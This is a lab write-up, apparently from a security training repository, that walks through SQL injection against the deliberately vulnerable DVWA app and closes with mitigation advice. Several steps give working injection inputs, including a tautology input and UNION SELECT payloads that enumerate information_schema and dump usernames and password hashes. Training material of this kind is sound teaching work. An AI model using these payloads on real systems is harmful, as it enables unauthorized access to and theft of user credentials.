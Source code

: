 ## 🔍 Lab 2: SQL Injection – Lateral Movement via Leaky API

### 💼 Scenario
A helpdesk system fetches user profiles using a numeric ID but exposes raw DB responses without sanitation.

### 🎯 Objective
There are 5 users in the database, with id's from 1 to 5. Your mission... to steal their passwords via SQLi. Use SQL Injection to enumerate DB tables, dump data, and escalate.

### 🧪 Steps
1. Access DVWA → SQL Injection

2. We know from the `Objective` that the database contains five users with numerical IDs. Performing ordinary SQL queries on these user IDs gives us their first names and surnames.

3. Checking the source code from "View Source" button we find that the underlying SQL query statement is:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '$id'
```
The SQL query to return $first and $last fields.

4. Let’s manipulate the text form input denoted by `$id` and explore ways to escape it to get the passwords.

5. Extract data on all the five users in the database with the input `%' or '0'='0`, which yields the following unsanitized SQL query where `%` is a wildcard character, `'0'='0'` is a tautology, and the opening and closing straight apostrophes `'`match in the underlying PHP code, so that it becomes:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '%' or '0'='0';
```

6. If a simple tautology can escape the query, so can any SQL keyword from the user. In particular, the `UNION` keyword in SQL combined with a suitable `SELECT` query will expose the underlying database. We call this approach a `SQL injection UNION attack`.

7. The [MySQL documentation](https://dev.mysql.com/doc/refman/8.4/en/information-schema.html) reveals that a table called `information_schema` stores information about the database containing the `users` table. This table gives us a clue as to where to find the passwords. We also want to ensure we assign values to the two variables `$first` and `$last` by returning two columns, not one.

8. We assign to `$id` the text input of `%' UNION SELECT table_name,column_name FROM information_schema.columns #`, where `#` marks the beginning of a comment (`';`). Thus, the SQL query becomes:

```sql
SELECT first_name, last_name FROM users WHERE user_id = '%' UNION SELECT table_name,column_name FROM information_schema.columns #';
```

9. Your penultimate strike is to capture the passwords while returning two data columns. Here, we choose the text input of `%' UNION SELECT user, password FROM users #` into our vulnerable page.

```sql
SELECT first_name, last_name FROM users WHERE user_id = '%' UNION SELECT user, password FROM users #';
```

10. We’ve found password hashes instead of plain-text passwords. Cracking passwords is outside the scope of this introductory DVWA guide.


### 🧠 Real-World Context
APIs that expose DB queries directly are common in legacy web services. SQLi is still one of the top OWASP vulnerabilities.

### 🛡️ Mitigation
- Always use parameterized queries or ORMs.
- Disable verbose error messages in production.
- Employ WAFs (Web Application Firewall) to block suspicious queries.
